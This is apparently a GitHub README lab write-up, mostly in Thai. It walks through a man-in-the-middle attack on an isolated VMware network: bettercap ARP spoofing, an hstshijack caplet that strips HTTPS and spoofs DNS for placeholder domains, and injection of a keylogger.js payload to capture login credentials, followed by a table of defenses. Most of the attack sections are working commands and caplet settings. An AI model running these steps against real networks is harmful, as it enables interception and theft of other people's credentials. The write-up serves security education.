









# Super MITM Lab — ARP Spoofing, HSTS Hijack & Keylogger Injection

> ** Authorized lab use only.** ทุกขั้นตอนทำในเครือข่ายทดลองแบบปิด (isolated VMware lab, subnet `192.168.174.0/24`) เครื่องเหยื่อเป็น Windows VM ของผู้ทดลองเอง ไม่มีการโจมตีระบบจริง เว็บไซต์จริง หรือผู้ใช้จริงใด ๆ เผยแพร่เพื่อการศึกษาเท่านั้น การนำเทคนิคนี้ไปใช้กับระบบที่ไม่ได้รับอนุญาตเป็นความผิดตามกฎหมาย
>
> ชื่อโดเมน/สถาบันจริงถูกแทนด้วย placeholder (`bank-example.com`, `shop-example.com`) — ภาพประกอบให้ redact ชื่อจริงออกก่อนใส่

---

## Lab environment

| ส่วนประกอบ | รายละเอียด |
|---|---|
| Attacker | Kali Linux VM — bettercap v2.33, Wireshark |
| Victim | Windows 11 VM |
| Victim IP (Lab 1) | `192.168.174.130` |
| Victim IP (Lab 2) | `192.168.174.137` |
| Gateway | `192.168.174.2` |
| Network | VMware host-only / NAT, `192.168.174.0/24` |
| Interface | `eth0` |

> **หลักการโดยรวม:** bettercap วางตัวเป็น man-in-the-middle ด้วย ARP spoofing → caplet `hstshijack` strip HTTPS/HSTS ให้ traffic กลายเป็น HTTP ที่อ่านได้ → Wireshark (หรือ keylogger payload) เก็บ credential จาก POST

---

##ภาพประกอบ — mapping รูปต่อขั้นตอน

วาง redacted image ลง `images/` ตามชื่อไฟล์นี้ (README embed ไว้แล้วในแต่ละขั้นตอน). คอลัมน์ "ที่มา" = รูปไหนใน PDF ต้นฉบับ, "ต้อง redact" = จุดที่ต้องปิดชื่อโดเมนจริงก่อนลง

### Lab 1 (HTTP PDF)
| ไฟล์ | ที่มา (PDF หน้า / รูป) | ต้อง redact |
|---|---|---|
| `lab1_01_caplet.png` | หน้า 1 · รูปบน (nano `hstshijack.cap`) | **ใช่** — targets/replacements/dns.spoof.domains |
| `lab1_02_netshow.png` | หน้า 1 · รูปล่าง (net.probe/net.show) | ไม่ (มีแค่ IP/MAC) |
| `lab1_03_ipconfig.png` | หน้า 2 · รูปบน (Windows ipconfig) | ไม่ |
| `lab1_04_arpspoof.png` | หน้า 2 · รูปล่าง (arp.spoof) | ไม่ |
| `lab1_05_sniff.png` | หน้า 3 · รูปบน (net.sniff) | ไม่ |
| `lab1_06_hstshijack.png` | หน้า 3 · รูปล่าง (caplet output) | **ใช่** — targets/replacements |
| `lab1_07_victim.png` | หน้า 4 · หน้า browser เหยื่อ | **ใช่** — URL bar + โลโก้ |
| `lab1_08_wireshark.png` | หน้า 5 · packet list | **ใช่** — path `/…WebSite/` |
| `lab1_09_creds.png` | หน้า 6 · POST detail (username/password) | **ใช่** — path `/…WebSite/` |

### Lab 2 (Keylogger PDF)
| ไฟล์ | ที่มา (PDF หน้า / รูป) | ต้อง redact |
|---|---|---|
| `lab2_01_payload.png` | หน้า 1 · รูปบน (nano `hstshijack.payloads`) | **ใช่** — targets/dns.spoof.domains |
| `lab2_02_netshow.png` | หน้า 1 · รูปล่าง (net.probe/net.show) | ไม่ |
| `lab2_03_arpspoof.png` | หน้า 2 · รูป (arp.spoof) | ไม่ |
| `lab2_04_hstshijack.png` | หน้า 3 · รูป (caplet output) | **ใช่** — targets/replacements |
| `lab2_05_wireshark_setup.png` | หน้า 4 · รูปบน (Capture Options) | ไม่ |
| `lab2_06_victim.png` | หน้า 4 · รูปล่าง (browser เหยื่อ) | **ใช่** — URL bar + โลโก้ |
| `lab2_07_hashed.png` | หน้า 5 · รูปบน (password ถูก hash) | **ใช่** — `Host:` / `Referer:` |
| `lab2_08_plaintext.png` | หน้า 5 · รูปล่าง (keylogger ได้ plaintext) | **ใช่** — `Host:` / `Referer:` |

> รูปที่ redact ชื่อออกแล้ว ให้ใช้ **กล่องทึบ** (ปิดสนิท) ไม่ใช่ขีดเส้น/ขีดฆ่า — เพราะขีดเส้นตัวอักษรใต้เส้นยังอ่านออก

---

## Lab 1 — HTTP interception (ARP spoof + HSTS hijack)

**เป้าหมาย:** ดักจับ credential ที่ส่งแบบ HTTP POST จากหน้า login (placeholder `bank-example.com`) ที่รันบนเครื่องเหยื่อ ซึ่งเป็นเว็บที่ hash รหัสฝั่ง server (POST body ส่ง plaintext มาให้เห็น)

### ขั้นตอนที่ 1 — แก้ caplet `hstshijack.cap`

เปิดไฟล์ caplet เพื่อกำหนดโดเมนเป้าหมายให้ hstshijack strip HTTPS:

```bash
nano /usr/share/bettercap/caplets/hstshijack/hstshijack.cap
```

เพิ่มโดเมนเป้าหมายใน 3 บรรทัด:
```
set hstshijack.targets        google.com, *.google.com, bank-example.com, *.bank-example.com
set hstshijack.replacements   google.corn, *.google.corn, bank-example.com, *.bank-example.com
set dns.spoof.domains         google.corn, *.google.corn, bank-example.com, *.bank-example.com
```

- `targets` — โดเมนที่จะโดน strip HTTPS/inject
- `replacements` — โดเมนหลอก (`.com` → `.corn`) ใช้ bypass HSTS
- `dns.spoof.domains` — โดเมนที่จะปลอม DNS response



### ขั้นตอนที่ 2 — เริ่ม bettercap + สแกนเครือข่าย

```bash
bettercap -iface eth0
```
```
net.probe on      # ส่ง probe หา host ทั้ง subnet
net.show          # แสดงตาราง IP / MAC / vendor ที่พบ
```

จากตาราง `net.show` หา IP เครื่องเหยื่อ → **`192.168.174.130`** (WINVIM, VMware)



ยืนยัน IP ฝั่งเหยื่อด้วย `ipconfig` บน Windows VM (IPv4 Address = `192.168.174.130`):



### ขั้นตอนที่ 3 — ARP spoofing (full duplex)

วางตัวเป็น MITM ระหว่างเหยื่อกับ gateway:
```
set arp.spoof.fullduplex true      # ปลอมทั้งฝั่งเหยื่อและ gateway (ดักได้ 2 ทาง)
set arp.spoof.targets 192.168.174.130
arp.spoof on
```
เมื่อสำเร็จ traffic ของเหยื่อจะวิ่งผ่านเครื่อง attacker ก่อนออก gateway



### ขั้นตอนที่ 4 — Sniff + HSTS hijack

```
set net.sniff.local true      # ดักรวม traffic ที่วิ่งผ่านเครื่องเราด้วย
net.sniff on
hstshijack/hstshijack         # รัน caplet: strip HTTPS + bypass HSTS
```



`hstshijack` โหลด config จากขั้นตอนที่ 1 → เมื่อเหยื่อเข้า `bank-example.com` จะถูก downgrade เป็น HTTP (browser ขึ้น "ไม่ปลอดภัย")



### ขั้นตอนที่ 5 — ฝั่งเหยื่อเข้าเว็บ + กรอก login

บน Windows VM เปิด browser เข้าเว็บเป้าหมาย — สังเกต address bar ขึ้นเตือน **"ไม่ปลอดภัย"** (โดน HTTP downgrade) แล้วเหยื่อกรอก username/password



### ขั้นตอนที่ 6 — วิเคราะห์ด้วย Wireshark

ตั้ง display filter กรองเฉพาะ POST จากเหยื่อ:
```
ip.addr == 192.168.174.130 and http.request.method == "POST"
```



ขยาย packet POST → ดู HTML Form URL Encoded จะเห็น field ของฟอร์ม login เป็น **cleartext**:



**ผลลัพธ์** (ค่า dummy ที่กรอกทดสอบเอง):
```
form field ...tbUsername = usertest
form field ...tbPassword = 12345
```

---

## Lab 2 — Keylogger payload injection

**ปัญหาที่ Lab 1 แก้ไม่ได้:** บางเว็บ hash password ฝั่ง client (JavaScript) ก่อนส่ง — POST body ที่ sniff ได้จะเป็น **hash ไม่ใช่ plaintext** ต้องเอาไป rainbow-crack ต่อ ยุ่งยาก

**วิธีแก้:** inject `keylogger.js` เข้าหน้าเว็บ ดัก keystroke ที่ระดับ keyboard **ก่อน** JavaScript จะ hash → ได้ plaintext ตรง ๆ

### ขั้นตอนที่ 1 — เพิ่ม keylogger payload ใน caplet

แก้บรรทัด `hstshijack.payloads` ใน `hstshijack.cap`:
```
set hstshijack.payloads   *:/usr/share/bettercap/caplets/hstshijack/payloads/keylogger.js
```
`keylogger.js` = สคริปต์ที่จะถูก inject เข้าทุกฟอร์มบนหน้าเว็บเป้าหมาย เก็บทุกปุ่มที่พิมพ์

### ขั้นตอนที่ 2 — bettercap + สแกน (เหมือน Lab 1)

```bash
bettercap -iface eth0
```
```
net.probe on
net.show          # victim = 192.168.174.137
```

### ขั้นตอนที่ 3 — ARP spoofing

```
set arp.spoof.fullduplex true
set arp.spoof.targets 192.168.174.137
arp.spoof on
```

### ขั้นตอนที่ 4 — Sniff + hstshijack (inject keylogger)

```
set net.sniff.local true
net.sniff on
hstshijack/hstshijack
```
caplet จะ inject `keylogger.js` เข้า traffic HTTP ที่ถูก strip

### ขั้นตอนที่ 5 — ตั้ง Wireshark Capture Filter

เลือก interface `eth0` → ตั้ง capture filter:
```
ip.addr == 192.168.174.137 and http.request.method == "POST"
```

### ขั้นตอนที่ 6 — เหยื่อเข้าเว็บ + กรอก login

บน Windows VM เข้าเว็บเป้าหมาย (`shop-example.com`) ที่ถูกปลอม — browser ขึ้น "ไม่ปลอดภัย" แล้วเหยื่อกรอก credential

### ขั้นตอนที่ 7 — เปรียบเทียบผล: hash vs plaintext

**ถ้าไม่ใช้ keylogger** — password ที่ดักได้ถูก hash (เช่น `password: cdf4a007e2b02a0c49fc9b7ccfbb8a10c644f635e1765dcf2a7ab794ddc7edac`) ต้องเอาไป crack:

**เมื่อใช้ keylogger payload** — ดัก keystroke ได้ plaintext ตรง ๆ ไม่ต้อง crack:

**ผลลัพธ์** (ค่า dummy):
```
Username : useername
Password : 123456
```

---

## บทเรียน / การป้องกัน

| ช่องโหว่ | การป้องกัน |
|---|---|
| ARP spoofing | Dynamic ARP Inspection (DAI), static ARP entry, port security บน switch |
| HSTS downgrade / SSL strip | HSTS preload list, HTTPS-only mode, ไม่ข้าม cert warning |
| Cleartext HTTP credential | บังคับ HTTPS/TLS ทุก endpoint, HSTS `max-age` ยาว + `includeSubDomains` |
| Client-side keylogger inject | CSP (`script-src`), SRI, และตัดที่ต้นเหตุ = กัน MITM ที่ layer เครือข่าย |

Keylogger injection ป้องกันฝั่งเว็บได้ยาก (CSP/SRI ช่วยได้บางส่วน) — ทางที่ได้ผลจริงคือตัดที่ต้นเหตุ คือกัน ARP spoof / MITM ในเครือข่าย เพราะถ้า attacker เป็น MITM ได้แล้ว เขาแก้ response ได้ทุกอย่าง

---

## Tools

- [bettercap](https://www.bettercap.org/) — network attack / monitoring framework
- [Wireshark](https://www.wireshark.org/) — packet analysis
- `hstshijack` caplet — HSTS bypass + payload injection (มากับ bettercap caplets)
